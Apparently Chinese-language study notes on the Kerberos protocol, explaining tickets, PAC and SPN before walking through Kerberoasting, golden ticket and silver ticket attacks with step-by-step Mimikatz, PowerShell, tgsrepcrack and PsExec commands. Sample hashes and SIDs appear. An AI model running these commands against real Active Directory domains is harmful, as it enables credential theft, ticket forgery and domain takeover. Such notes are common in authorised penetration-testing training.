

# kerberos协议

## 前言

Kerberos 是一种由 MIT（麻省理工大学）提出的一种网络身份验证协议。它旨在通过使用密钥加密技术为客户端/服务器应用程序提供强身份验证。

Kerberos 主要是用在域环境下的身份认证协议


## 三大要素

客户端

服务端

KDC(Key Distribution Center) = DC(Domain Controller)


## 基础概念

票据（Ticket）：是网络对象互相访问的凭证。

TGT（Ticket Granting Ticket）：入场券，通过入场券能够获得票据，是一种临时凭证的存在。

KDC负责管理票据、认证票据、分发票据，但是KDC不是一个独立的服务，它由以下服务组成：

1. **Authentication Service: 为client生成TGT的服务(简称AS)**

2. **Ticket Granting Service: 为client生成某个服务的ticket(简称TGS)**

   

另外还需要介绍一个类似于本机SAM的一个数据库：AD，全称叫account database，存储所有client的白名单，只有存在于白名单的client才能顺利申请到TGT。

从物理层面看，AD与KDC均为域控制器(Domain Controller)


## 通讯流程




认证过程:

1. 使用用户的NTLM哈希和时间戳一起加密, 将加密的结果发送到KDC进行身份验证的票据请求(AS REQ)
2. 域控(KDC)中的AS服务在AD白名单中查用户信息(登录限制, 组成员等)并创建票证授权票证(TGT), KDC此时生成一个随机字符串，叫Session Key，使用用户名对应的NTLM Hash加密Session Key，作为AS数据，使用KDC中某个用户的NTLM Hash加密Session Key和客户端的信息，生成TGT发送给客户端，只有域中的Kerberos服务(KBRTGT)才能打开和读取TGT数据
3. 用户请求票证授权服务票证时(TGS REQ),会将TGT和使用自己的NTML hash解密得到的Session key，时间戳发送给KDC的TGS服务, KDC打开TGT并验证PAC校验和, 验证通过之后, 复制TGT中的数据用于创建TGS票证，生成新的sesis.
4. 使用目标服务账户的NTLM哈希对TGS进行加密,并将使用server session key加密的ticket票据和时间戳发送给用户(TGS REP)
5. 用户连接到服务器托管的服务端口上发送Ticket票据给服务器(AP REQ), 被托管的服务使用服务账户的哈希打开票证
6. 如果客户端需要进行相互间的身份验证就会执行到这一步


注意：

TGT的到期时间为8小时


## PAC && SPN

### **PAC**

在 Kerberos 最初设计的几个流程里说明了如何证明 Client 是 Client 而不是由其他人来冒充的，但并没有声明 Client 有没有访问 Server 服务的权限，因为在域中不同权限的用户能够访问的资源是有区别的。

所以微软为了解决这个问题在实现 Kerberos 时加入了 PAC 的概念，PAC 的全称是 Privilege Attribute Certificate(特权属性证书)。可以理解为火车有一等座，也有二等座，而 PAC 就是为了区别不同权限的一种方式


**PAC的实现**

当用户与 KDC 之间完成了认证过程之后，Client 需要访问 Server 所提供的某项服务时，Server 为了判断用户是否具有合法的权限需要将 Client 的 User SID 等信息传递给 KDC，KDC 通过 SID 判断用户的用户组信息，用户权限等，进而将结果返回给 Server，Server 再将此信息与用户所索取的资源的 ACL 进行比较，最后决定是否给用户提供相应的服务。

PAC 会在 KRB_AS_REP 中 AS 放在 TGT 里加密发送给 Client，然后由 Client 转发给 TGS 来验证 Client 所请求的服务。

在 PAC 中包含有两个数字签名 PAC_SERVER_CHECKSUM 和 PAC_PRIVSVR_CHECKSUM，这两个数字签名分别由 Server 端密码 HASH 和 KDC 的密码 HASH 加密。

同时 TGS 解密之后验证签名是否正确，然后再重新构造新的 PAC 放在 ST 里返回给客户端，客户端将 ST 发送给服务端进行验证


**Server与KDC**

PAC 可以理解为一串校验信息，为了防止被伪造和串改，原则上是存放在 TGT 里，并且 TGT 由 KDC hash 加密。**同时尾部会有两个数字签名，分别由 KDC 密码和 server 密码加密，防止数字签名内容被篡改**

同时 PAC 指定了固定的 User SID 和 Groups ID，还有其他一些时间等信息，Server 的程序收到 ST 之后解密得到  PAC 会将 PAC 的数字签名发送给 KDC，KDC 再进行校验然后将结果已 RPC 返回码的形式返回给 Server。


### SPN

服务主体名称（SPN）是Kerberos客户端用于唯一标识给特定Kerberos目标计算机的服务实例名称。Kerberos身份验证使用SPN将服务实例与服务登录帐户相关联。如果在整个林中的计算机上安装多个服务实例，则每个实例都必须具有自己的SPN。如果客户端可能使用多个名称进行身份验证，则给定的服务实例可以具有多个SPN。例如，SPN总是包含运行服务实例的主机名称，所以服务实例可以为其主机的每个名称或别名注册一个SPN


**SPN扫描**

spn扫描也可以叫扫描Kerberos服务实例名称，在Active Directory环境中发现服务的最佳方法是通过“SPN扫描”。通过请求特定SPN类型的服务主体名称来查找服务，SPN扫描攻击者通过网络端口扫描的主要好处是SPN扫描不需要连接到网络上的每个IP来检查服务端口。SPN扫描通过LDAP查询向域控制器执行服务发现。由于SPN查询是普通Kerberos票据的一部分，因此如果不能被查询，但可以用网络端口扫描来确认


**SPN格式**

```
SPN = serviceclass “/” hostname [“:”port] [“/” servicename]

serviceclass = mssql

servicename =sql.bk.com
```

其中：

serviceclass:标识服务类的字符串，例如Web服务的www

hostname:一个字符串，是系统的名称。这应该是全限定域名（FQDN）。

port:一个数字，是该服务的端口号。

servicename:一个字符串，它是服务的专有名称（DN），objectGuid，Internet主机名或全限定域名（FQDN）。

注意: 服务类和主机是必需参数，但 端口和服务名是可选的，主机和端口之间的冒号只有当端口存在时才需要

 

常见服务和spn服务实例名称

```
MSSQLSvc/adsmsSQLAP01.adsecurity.org:1433

Exchange

exchangeMDB/adsmsEXCAS01.adsecurity.org

RDP

TERMSERV/adsmsEXCAS01.adsecurity.org

WSMan / WinRM / PS Remoting

WSMAN/adsmsEXCAS01.adsecurity.org

Hyper-V Host

Microsoft Virtual Console Service/adsmsHV01.adsecurity.org

VMWare VCenter

STS/adsmsVC01.adsecurity.org
```


## Kerberos常见攻击


### Kerberoast爆破TGS

- 不管用户对服务有没有访问权限, 只要TGT正确, 就会返回TGS
- 请求Kerberos服务票证的加密类型是RC4_HMAC_MD5
- 大多数服务账户的密码长度与域密码的最小长度相同(10或12个字符)
- 密码的有效期一般是一个月以上


#### 爆破流程

**1.通过SPN扫描，找到用户SPN服务**

```
setsp   -T   域名    -Q   */*
```

```
<service class>：标识服务类的字符串
<host>：服务所在主机名称
<port>：服务端端口
<service name>：服务名称
```


**2.请求服务获取TGS**

​	攻击者在内网目标机上利用PoweShell脚本来实现特定的SPN请求服务票据，执行以下命令即可。其中<服务名称>指的是第一步中所列出的SPN服务，例如我们使用kadmin/changepw来作为测试，那么我们在最后需要加上kadmin/changepw即可。

```
	Add-Type -AssemblyName System.IdentityModel

​	New-ObjectSystem.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<服务名称>"
```


3.**导出服务票据**

攻击者在请求完对应的服务票据后，可以利用Mimikatz来将票据进行导出，除了Mimikatz外还有一些其他的工具也可以实现这个目的，例如PowerShell、Empire等，如果是要使用Mimikatz的话需要执行以下命令即可

```
mimikatz # kerberos::list /export
```


4.**离线爆破密码**

执行该脚本目录下的tgsrepcrack.py在构造一份用来爆破的密码字典，执行爆破即可。可以看到如果成功破解了kerberos票据会把域账户的明文密码显示出来

```
python tgsrepcrack.py pass.txt "saved  to file字段"
```


### 黄金票据(TGT)

使用黄金票据做权限维持：

- 能获取到KRBTGT账户的sid值和哈希值
- 做权限维持时KRBTGT账户的密码很长时间不会修改

黄金票据的构造过程需要同DC交互


#### 构造票据

##### **抓取KRBTGT账户信息(在域控上进行操作)**

使用mimakatz进行操作，抓取工作域下krbtgt用户的账户信息

```
sadump::dcsync /domain:test.com /user:krbtgt
```


##### **伪造TGT请求任意TGS**

得到 KRBTGT HASH 之后使用 mimikatz 中的 kerberos::golden 功能生成金票 golden.kiribi，即为伪造成功的TGT。
参数说明：

```
/admin:伪造的用户名
/domain:域名称
/sid:SID 值，域的SID
/krbtgt:krbtgt 的 NTLM-HASH 值
/ticket:生成的票据名称
```

```
kerberos::golden /admin:administrator /domain:test.com /sid:S-1-5-21-593020204-2933201490-533286667 /krbtgt:8894a0f0182bff68e84bd7ba767ac8ed /ticket:golden.kiribi
```


##### 获取权限

```
清空本地票据缓存，导入伪造的票据
查看本地保存的票据，观察Client name：kerberos::list
清理本地票据缓存：kerberos::purge
导入伪造的黄金票据：kerberos::ptt golden.kiribi
查看本地保存的票据，观察Client name：kerberos::list
```

票据20分钟内有效，过期之后可以再次导入


### 白银票据(TGS)

使用白银票据:

- 获取能访问SPN服务的账户的sid值和哈希值
- 白银票据直接同应用服务器通信


#### 构造票据

第一步：

```
管理员权限运行mimikatz

privilege::debug #提升权限

sekurlsa::logonpasswords #获取service账户hash 和sid(同一个域下得sid一样)
```


第二步：

```
清空本地票据缓存

kerberos::purge #清理本地票据缓存

kerberos::list #查看本地保存的票据
```


第三步：

```
伪造白银票据并导入

kerberos::golden /domain:superman.com /sid:S-1-5-21-259090122-541454442-2960687606  /target:win08.superman.com /rc4:f6f19db774c63e49e9af61346adff204  /service:cifs /user:administrator /ptt
```


第四步：

```
访问域控的共享目录

dir \\win08\c$

远程登陆，执行命令

PsExec.exe \\win08 cmd.exe

whoami查看权限
```

